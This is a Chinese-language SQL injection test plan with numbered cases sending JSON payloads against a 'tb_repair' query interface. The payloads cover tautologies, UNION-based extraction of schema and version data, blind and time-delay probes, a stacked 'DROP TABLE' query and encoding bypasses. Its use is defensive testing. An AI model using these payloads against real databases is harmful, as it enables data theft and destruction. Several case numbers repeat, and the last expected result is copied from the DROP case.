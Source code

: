 ## 用例1基本测试，正常数据：

```
{
"tableName": "tb_repair",
"columns": ["id", "id_container", "code_path"],
"columnsCondition": ["code_path", "id_container"],
"values": ["id_9_device_5_container_5_source.txt", "5"]
}
```

## 用例2 单引号闭合测试（基础注入）

```
{
  "tableName": "tb_repair",
  "columns": ["id", "id_container", "code_path"],
  "columnsCondition": ["code_path", "id_container"],
  "values": ["' OR '1'='1", "5"]
}
```

预期行为：如果易受攻击，将返回所有记录（'1'='1总是为真）

## 用例3 条件永真攻击

```
{
  "tableName": "tb_repair",
  "columns": ["id", "id_container", "code_path"],
  "columnsCondition": ["code_path", "id_container"],
  "values": ["'; --", "5 OR 1=1"]
}
```

预期行为：注释符(--)将删除后续查询条件

## 用例4 联合查询信息泄露

```
{
  "tableName": "tb_repair",
  "columns": ["id", "id_container", "code_path"],
  "columnsCondition": ["code_path", "id_container"],
  "values": [
    "' UNION SELECT version(), user(), database() -- ", 
    "5"
  ]
}
```

预期行为：返回数据库版本、用户和库名等敏感信息

## 用例5 跨表查询攻击

```
{
  "tableName": "tb_repair",
  "columns": ["id", "id_container", "code_path"],
  "columnsCondition": ["code_path", "id_container"],
  "values": [
    "' OR 1=1 UNION SELECT table_name, column_name, 1 FROM information_schema.columns --", 
    "5"
  ]
}
```

预期行为：泄露数据库所有表和列信息

## 用例5 布尔盲注攻击

```
{
  "tableName": "tb_repair",
  "columns": ["id", "id_container", "code_path"],
  "columnsCondition": ["code_path", "id_container"],
  "values": [
    "' AND SUBSTRING((SELECT @@version),1,1)='5' --", 
    "5"
  ]
}
```

预期行为：通过不同响应判断MySQL是否以5开头（如5.6/5.7）

## 用例5 时间延迟攻击

```
{
  "tableName": "tb_repair",
  "columns": ["id", "id_container", "code_path"],
  "columnsCondition": ["code_path", "id_container"],
  "values": [
    "'; IF(1=1) WAITFOR DELAY '0:0:5' --",  // SQL Server
    "' OR SLEEP(5) --"                     // MySQL
  ]
}
```

预期行为：响应延迟5秒确认漏洞存在

## 用例5 堆叠查询攻击

```
{
  "tableName": "tb_repair",
  "columns": ["id", "id_container", "code_path"],
  "columnsCondition": ["code_path", "id_container"],
  "values": [
    "'; DROP TABLE tb_users; --", 
    "5"
  ]
}
```

预期行为：可能删除其他数据表（仅在测试环境使用！）

## 用例5 特殊字符绕过测试

```
{
  "tableName": "tb_repair",
  "columns": ["id", "id_container", "code_path"],
  "columnsCondition": ["code_path", "id_container"],
  "values": [
    "\\u0027 OR 1=1 --",  // Unicode编码单引号
    "0x20 OR 1=1"          // 十六进制编码空格
  ]
}
```

预期行为：可能删除其他数据表（仅在测试环境使用！）